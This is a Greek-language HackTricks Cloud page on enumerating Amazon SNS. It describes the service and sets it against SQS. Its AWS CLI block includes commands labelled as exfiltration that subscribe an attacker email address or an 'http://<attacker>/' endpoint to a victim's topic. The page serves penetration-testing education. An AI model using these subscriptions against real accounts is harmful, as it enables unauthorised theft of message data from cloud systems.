 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Η Υπηρεσία Απλών Ειδοποιήσεων της Amazon (Amazon SNS) περιγράφεται ως μια **πλήρως διαχειριζόμενη υπηρεσία μηνυμάτων**. Υποστηρίζει τόσο **επικοινωνία εφαρμογής προς εφαρμογή** (A2A) όσο και **επικοινωνία εφαρμογής προς άτομο** (A2P).

Τα κύρια χαρακτηριστικά για την επικοινωνία A2A περιλαμβάνουν **μηχανισμούς δημοσίευσης/εγγραφής (pub/sub)**. Αυτοί οι μηχανισμοί εισάγουν **θέματα**, κρίσιμα για την ενεργοποίηση υψηλής απόδοσης, **βασισμένης σε push, επικοινωνίας πολλών προς πολλούς**. Αυτό το χαρακτηριστικό είναι ιδιαίτερα ευνοϊκό σε σενάρια που περιλαμβάνουν κατανεμημένα συστήματα, μικροϋπηρεσίες και αρχιτεκτονικές serverless που βασίζονται σε γεγονότα. Εκμεταλλευόμενοι αυτά τα θέματα, τα συστήματα εκδότη μπορούν να διανέμουν αποτελεσματικά μηνύματα σε ένα **ευρύ φάσμα συστημάτων συνδρομητών**, διευκολύνοντας ένα μοτίβο επικοινωνίας fanout.

### **Διαφορά με SQS**

**SQS** είναι μια **υπηρεσία βασισμένη σε ουρές** που επιτρέπει την επικοινωνία σημείου προς σημείο, διασφαλίζοντας ότι τα μηνύματα επεξεργάζονται από έναν **μοναδικό καταναλωτή**. Προσφέρει **τουλάχιστον μία παράδοση**, υποστηρίζει κανονικές και FIFO ουρές, και επιτρέπει τη διατήρηση μηνυμάτων για επαναλήψεις και καθυστερημένη επεξεργασία.\
Από την άλλη πλευρά, το **SNS** είναι μια **υπηρεσία βασισμένη σε δημοσίευση/εγγραφή**, επιτρέποντας **επικοινωνία ενός προς πολλούς** μέσω της μετάδοσης μηνυμάτων σε **πολλούς συνδρομητές** ταυτόχρονα. Υποστηρίζει **διάφορες διευθύνσεις συνδρομής όπως email, SMS, λειτουργίες Lambda και HTTP/HTTPS**, και παρέχει μηχανισμούς φιλτραρίσματος για στοχευμένη παράδοση μηνυμάτων.\
Ενώ και οι δύο υπηρεσίες επιτρέπουν την αποσύνδεση μεταξύ των συστατικών σε κατανεμημένα συστήματα, το SQS εστιάζει στην επικοινωνία μέσω ουρών, ενώ το SNS τονίζει τα μοτίβα επικοινωνίας που βασίζονται σε γεγονότα και fan-out.

### **Αριθμητική**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Σημειώστε ότι αν το **θέμα είναι τύπου FIFO**, μόνο οι συνδρομητές που χρησιμοποιούν το πρωτόκολλο **SQS** μπορούν να χρησιμοποιηθούν (HTTP ή HTTPS δεν μπορούν να χρησιμοποιηθούν).

Επίσης, ακόμη και αν το `--topic-arn` περιέχει την περιοχή, βεβαιωθείτε ότι έχετε καθορίσει τη σωστή περιοχή στο **`--region`** ή θα λάβετε ένα σφάλμα που δείχνει ότι δεν έχετε πρόσβαση, αλλά το πρόβλημα είναι η περιοχή.
{% endhint %}

#### Μη Αυθεντική Πρόσβαση

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Κλιμάκωση Δικαιωμάτων

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Μετά την Εκμετάλλευση

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Επιμονή

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Αναφορές

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
